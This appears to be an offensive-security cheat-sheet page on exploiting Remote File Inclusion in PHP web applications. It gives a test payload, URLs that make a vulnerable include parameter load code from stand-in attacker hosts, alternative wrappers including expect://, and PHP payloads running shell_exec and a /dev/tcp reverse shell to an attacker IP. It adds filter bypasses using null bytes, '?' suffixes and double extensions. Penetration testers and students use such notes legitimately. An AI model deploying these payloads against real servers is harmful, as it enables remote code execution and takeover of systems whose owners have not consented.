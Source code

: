 ```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the victim even if it is not available locally.
---
```


# Remote File Inclusion (RFI)

### Examples

#### Testing for RFI

Quick test for RFI with a PHP file, name this test.php and host using a Python server:

```php
<?php
echo "Hello";
?>
```

If we see the tags then we do not have remote code execution, however, if it says "Hello" then we have code execution.&#x20;

#### Basic Exploitation

```bash
http://localhost/index.php?page=http://someevilhost.com/test.php
```

If RFI doesn't work due to the HTTP wrapper being disabled then we can also try the following wrappers:

```bash
ftp://10.10.10.1/AnyFile
expect://ls
```

#### Obtaining a Shell

The simplest way to obtain a shell is to make a callback to the attacker server:

```bash
http://acme.com/index.php?page=http://attackerserver.com/evil.txt

```

Alternatively, the following commands can be input to a .txt file to obtain code execution:

```php
<?php echo shell_exec("whoami");?>
```

```php
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

### Notes

As stated briefly in the [LFI section](local-file-inclusion-lfi.md#additional-notes)

It is important in some situations to add a nullbyte `%00` to avoid appending `.php` or another extension like `.config`

If this does not work you can also add a `?`, to ensure that the rest will be interpreted as URL parameters.

A dirty way of bypassing this is also to name your file with the extension, e.g., `evil.txt.php`
